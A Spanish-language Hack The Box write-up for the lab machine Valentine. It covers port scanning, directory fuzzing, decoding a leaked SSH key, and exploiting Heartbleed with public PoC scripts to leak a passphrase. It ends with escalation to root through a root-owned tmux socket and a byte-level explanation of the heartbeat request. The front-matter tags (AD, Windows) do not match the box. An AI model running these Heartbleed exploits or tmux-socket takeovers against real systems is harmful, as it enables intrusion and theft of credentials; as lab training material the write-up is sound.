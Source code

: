 ```yaml
---
layout: single
title: Valentine - Hack The Box
excerpt: "Tocamos directorio activo"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-inteligence/inteligence1.png
categories:
  - hackthebox
  - infosec
tags:
  - hackthebox
  - AD
  - Windows  
---
```


# 10.10.10.79 - Valentine

![](/assets/images/htb-valentine/valentine1.png)

--------------

## Part 1. Escaneo de puertos:

```console
└─$ nmap -sCV -T5 10.10.10.79 -Pn -v
Discovered open port 443/tcp on 10.10.10.79
Discovered open port 80/tcp on 10.10.10.79
Discovered open port 22/tcp on 10.10.10.79
22/tcp    open     ssh            OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open     http           Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open     ssl/http       Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
|_http-server-header: Apache/2.2.22 (Ubuntu)
└─$ whatweb http://10.10.10.79
http://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
└─$ whatweb https://10.10.10.79
https://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
```
La peticion por el puerto 443 da error, pero el escaneo reporta que la web se llama Valentine.htb, asi que se añade al /etc/hosts la linea
```10.10.10.79	valentine.htb```

-----------------------
## Part 2: Analizando la web

La web tiene una foto:
![](/assets/images/htb-valentine/valentine2.PNG)

```console
└─$ curl http://valentine.htb/omg.jpg -O 
└─$ exiftool ./omg.jpg
```
Los metadatos no dicen nada interesante.
Disponemos a hacer fuzzing:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.79/FUZZ/
000000001:   200        1 L      2 W        38 Ch       "index"   # -> Lo mismo que la web en sí.                
000000820:   301        9 L      28 W       308 Ch      "dev"                 
000023098:   200        27 L     54 W       554 Ch      "encode"                                             
000024229:   200        25 L     54 W       552 Ch      "decode"                                             
000029887:   200        619 L    5759 W     145482 Ch   "omg"     # -> la foto
```
Si hago fuzzing por extension php me sale tambien /index /decode y /encode. El fuzzing por subdominios no da resultados.

**/dev** nos da directory listing, hay dos archivos notes.txt y hype.key
Hype.key es un archivo en hexadecimal (un monton de bytes)
```console
└─$ cat hype.key | xxd -ps -r
```
Encontramos una llave privada (supongo que para hacer ssh).
/encode y /decode nos codifica texto en base 64, o sea hace el comando ```echo "input" | base64 -w0```, es decir le pasa comandos al sistema. 
Pero la prueba ```test; whoami``` no funciona.

![](/assets/images/htb-valentine/valentine3.PNG)

La id_rsa le damos los permisos 
```console
└─$ chmod 600 ./id_rsa   
└─$ ssh -i id_rsa 10.10.10.79
Enter passphrase for key 'id_rsa': 
```
No tenemos la contraseña pero se pued intentar crackear la llave:
```console
└─$ python3 /usr/share/john/ssh2john.py id_rsa > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
```
-----------------------
## Part 3: Heartbleed

Pero no obtenemos contraseña, tiramos de nmap para que nos busque vulnerabilidades.
```console
└─$ nmap -T5 10.10.10.79 -script vuln  
| ssl-heartbleed: VULNERABLE:
The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
State: VULNERABLE Risk factor: High
OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
```
Nos hablan de la vulnerabilidad HEARTBLEED 
```console
└─$ searchsploit -m multiple/remote/32764.py
└─$ python2 32764.py 10.10.10.79 -p443 | tee archivo.txt
```
Este exploit no me ha sacado nada interesante, pero he encontrado otro:
```https://github.com/mpgn/heartbleed-PoC```
```console
└─$ python2 heartbleed-exploit.py 10.10.10.79
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
└─$ cat out.txt | xxd -r
```
Nada interesante. Hay que ejecutarlo varias veces...
A la segunda vez nos leakea esto: ```$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=``` Como la cadena son letras, 
numeros y un "=" suponemos que es base64
```console
└─$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=" | base64  -d
heartbleedbelievethehype
```
Parece la contraseña de ssh, el asunto es que ha sido un base64 porque supongo que el creador de la ma quinahabra utilizado su porpia herramienta 
/decode para "cifrar" la contraseña.
Como la llave era hype_key, podemos entrar con ese usuario:

-----------------------
## Part 4: Entrando en el sistema

```console
└─$ ssh -i id_rsa hype@10.10.10.79;
```
La enumeracion con mi script dice que:
- No hay SUIDS criticos ni capabilities.  
- Este archivo .conf tiene permiso de escritura: ```/home/hype/.config/Trolltech.conf```  
- Ha hecho varios comandos de TMUX (socketfiles) como ```tmux -S /.devs/dev_sess```  
- En la ruta /var/www esta el codigo php de la web (decode, encode y demas)  

```console
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct 10 23:23 /.devs/dev_sess
hype@Valentine:~$ export TERM=xterm
hype@Valentine:~$ export SHELL=bash
hype@Valentine:~$ tmux -S /.devs/dev_sess
```
Como el socket_file es de root (archivo que guarda una session en la consola Tmux) se puede reanudar,
teniendo esa consola de root. 

--------------------------------------------

## Extra: Heartbleed

"Corazon sangrante" es una vulnerabilidad que afecta a "OpenSSl 1.0.1 a 1.0.1f"    
Los Cetificados SSL están creados para encriptar las conexiones del protocolo https (por lo que la data que se envia se hace ilegible (encriptada)).    
Paralelamente a esta conexion esta el HEARTBEAT, un reconocimiento que hace el cliente con el servidor para decirle que la conexion sigue abierta: 
le dice una palabra y le pide que se la repita (y como esto no es confidencial no se encripta)    

han llamado "Latido de corazon" porque son dos golpes (pregunta-respuesta)    
Heartbeat normal (latido):     
```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (6letras)".
servidor: "PATATA"
```
El problema con Heartbleed esque le podemos decir que la respuesta sea mas larga que lo esperado.    

```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (600letras)".
servidor: "PATATA, pero como me has pedido 600 letras te contare muchas cosas interesantes más"```
```
Aqui se leakea los datos de la conexion https pero sin encriptar (ya que estos se guardan en la memoria y le hemos hecho sangrar esta misma con 
la respuesta MAS LARGA DE LO NORMAL)  
Leyendo el exploit, nos dice que una peticion HEARTBEAT es tal que asi:  
```
HEADERS:
18 -> Numero que indica que esto es un paquete Heartbeat
03 02 -> version TLS
00 03 -> tamaño (no se de que, supongo que la peticion?)
01 -> peticion de que nos hagan un heartbeat
40 00 -> tamaño de la respuesta que queremos (en decimal, paquetes de 16 384 bytes) 
PAYLOAD: "hello" # -> la palabra que nos tiene que repetir
```